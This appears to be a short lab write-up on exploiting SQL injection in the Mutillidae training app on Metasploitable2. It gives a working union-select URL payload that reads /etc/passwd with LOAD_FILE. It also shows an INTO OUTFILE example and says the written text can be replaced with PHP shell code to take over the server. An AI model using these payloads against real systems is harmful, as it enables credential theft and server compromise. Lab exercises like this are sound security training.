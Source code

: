- Reading and writing files on the web-server
- We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

## Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
```
http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
```
<img width="1046" height="486" alt="image" src="https://github.com/user-attachments/assets/4dd73c58-be97-480a-a1d0-824c49a784ef" />

- the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion.

- we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. 

- This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. 

Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:

The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
